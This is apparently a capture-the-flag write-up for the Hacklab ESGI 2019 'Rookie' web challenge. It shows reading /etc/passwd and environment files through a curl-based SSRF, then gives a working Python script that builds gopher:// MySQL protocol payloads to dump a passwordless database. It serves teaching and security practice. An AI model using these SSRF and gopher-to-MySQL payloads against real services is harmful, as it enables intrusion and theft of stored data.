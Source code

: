 ```yaml
---
title: "Hacklab ESGI 2019 |  Rookie Web100 Writeup"
author: "CHERIEF Yassine"
date: 2019-04-08T10:59:30+02:00
subtitle: "SSRF using gopher and curl"
tags: ["ctf", "writeup", "security", "web", "gopher", "exploit"]
categories: ["security", "writeups"]
---
```


## Challenge Description

| **Category**  | **Points** | **Solves** |
|-----------|--------|--------|
| web | 100    | 18     |

<br>
![rookie_chall_description](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554751591/rookie_description.png)

This is the URL for the challenge.  

**`URL:http://ctf.hacklab-esgi.org:8082/`**

So, as soon as we visit the given URL, we get a simple web page saying `Website Checker` and the title saying `super curling` (this gonna be fun!!). we notice that there is one input in the page, whatever you give as input gets passed to `curl` as a parameter. At first I thought that it was a just a simple command injection vulnerability (this supposition tuned out to be `False!`).

![super_curling_webpage](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554752661/super_curling.png)

If we provide `www.google.com` as input, we get the content of google displayed to us.So I started playing with the input to see if I can get some unexpected output.  

Let's try to access `/etc/passwd`, we will use the `file` protocol to do so, we can get access to local files with curl using the file protocol.    
**`input: file:///etc/passwd`**  

![etcpasswd_curl](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753146/etcpasswd_curl.png)

we can notice `mysql` and `www-data` users.  
Let's try accessing `/proc/self/environ`, by inputing `file:///proc/self/environ`.  

![proc_self_environ](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753425/proc_self_environ.png)

PWD = /var/www/html

let's try accessing **/var/www/html/config.php**, we get nothing :'(, after a while a friend told me to check **/var/www/html/config_test.php**, after doing that, nothing gets included in the page, but if we check the page source (`Ctrl+U`), we get some interesting php code.

![page_source](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753689/page_source_config_test.png)

We notice an interesting comment, 

```php
// TODO: MySQL connection with "tiix" user and adding a MySQL password...
```

We have a mysql user `tiix` with no password!!.

let's use `gopher` protocol and build a GREAT payload to connect to the database as `tiix` user.

To do so, we need to know how does mysql creates a connection packet and the Query as well.

let's sniff some traffic generated by the `mysql` command on our own machine.


I have created a new mysql user before that, its not really necessary.

```sql
CREATE USER 'tiix'@'localhost';
```

We can now execute the mysql command and see the generated packets in `wireshark`.

```bash
mysql -u tiix -h 127.0.0.1
```

![wireshark_mysql_conn](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554754846/wireshark_mysql_conn.png)

we now need to convert to `Raw bytes` and make a gopher payload link.

- **converting to raw bytes in wireshark**  

![raw_bytes_mysql_packet](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554754847/wireshark_mysql_raw_bytes.png)

- **making a gopher payload link.**

To do so all we need to do is precced each byte with an `&` symbol.

here is a script to do it with python.

```python
def gopher_exploit(payload_str):
    payload = [payload_str[i:i+2] for i in range(0, len(payload_str), 2)]
    return 'gopher://127.0.0.1:3306/_%' + '%'.join(payload)
```

we get this payload as a result.  

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%69%69%78%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%01%00%00%00%03%01%00%00%00%01
```

Here is the result when inputing the payload.  
![result_gopher_paylaod1](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554755781/result_gopher_payload_1.png)

We can see the mysql Database version in the output.
Now we can execute SQL queries.
Here is a script I made to automate the process, it takes a query as argument and returns a gopher payload link. (We no longer need wireshark!!).

```python
#!/usr/bin/python3

# coding : utf-8
import sys


global mysql_username
global hex_user

mysql_username = 'tiix'
hex_user = mysql_username.encode().hex()


def gopher_exploit(payload_str):
    payload = [payload_str[i:i+2] for i in range(0, len(payload_str), 2)]
    return 'gopher://127.0.0.1:3306/_%' + '%'.join(payload)

def main(query):
    global mysql_username
    global hex_user

    length = 'a3'
    if len(mysql_username) - 4 != 0:
        length = (chr(0xa3+(len(mysql_username) - 4))).encode().hex()


    conn_packet = length + '00000185a6ff0100000001210000000000000000000000000000000000000000000000'
    conn_packet += hex_user
    conn_packet += '00006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c'
    conn_packet += '69626d7973716c045f7069640532373235350f5f636c69656e745f76657273696f6e06352e372e3232095f706c6174666f726d'
    conn_packet += '067838365f36340c70726f6772616d5f6e616d65056d7973716c'


    auth = conn_packet.replace('\n', '')

    query = query.strip()
    hex_query = query.encode().hex()
    query_len_hex = '{:x}'.format((int((len(hex_query) / 2) + 1)))

    query_payload = query_len_hex.rjust(2,'0') + "00000003" + hex_query


    print(gopher_exploit(auth + query_payload + '0100000001'))


if __name__ == "__main__":
   query = sys.argv[1]
   main(query)
```

- **let's dump databases**

```bash
python3 exploit.py "show databases"
```

After inputing the resulting gopher payload link we find a database named `securityday`.

- **Dumping database tables.**

```bash
python3 exploit.py "use securityday;show tables;"
```

We get two tables:

- nothinghere
- users

Let's select now everything from `nothinghere`.

```bash
python3 exploit.py "use securityday; SELECT * FROM nothinghere;"
```

After the last payload we get the flag :D.

![flag_rookie](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554756722/flag_rookie.png)


**`FLAG: ESGI{W3lC0me_R00ki3_M0th3r_1s_0ld}`**
























